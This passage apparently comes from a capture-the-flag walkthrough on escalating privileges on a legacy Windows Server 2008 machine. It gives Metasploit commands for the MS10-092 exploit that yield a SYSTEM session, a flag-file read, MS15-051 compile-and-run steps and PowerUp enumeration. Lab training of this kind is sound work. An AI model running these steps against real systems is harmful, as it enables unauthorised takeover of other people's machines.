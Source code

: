 #### 7. Privilege Escalation
```bash
# Use MS10-092 exploit:
use exploit/windows/local/ms10_092_schelevator
set SESSION 1
set LHOST <your_vpn_ip>
set LPORT 4443
exploit

# Result: New session as NT AUTHORITY\SYSTEM
```

#### 8. Flag Retrieval
```cmd
# Drop to shell:
shell

# Get Administrator flag:
type C:\Users\Administrator\Desktop\flag.txt

# Expected result: Flag content displayed
```

## 🔄 Alternative Privilege Escalation Methods

### Manual Exploit Compilation
```cmd
# For environments where Metasploit is restricted:
# Download exploit source code from exploit-db
# Compile on Windows or cross-compile on Linux
# Transfer to target and execute

# Example MS15-051 compilation:
# Download: https://www.exploit-db.com/exploits/37367/
# Compile with Visual Studio or mingw
# Execute: .\ms15-051.exe "cmd.exe"
```

### PowerShell-Based Exploits
```powershell
# PowerUp for comprehensive enumeration:
Import-Module .\PowerUp.ps1
Invoke-AllChecks

# Specific checks for Server 2008:
Get-UnquotedService
Get-ModifiableServiceFile
Get-ModifiableService
```

## 🛠️ Legacy System Considerations
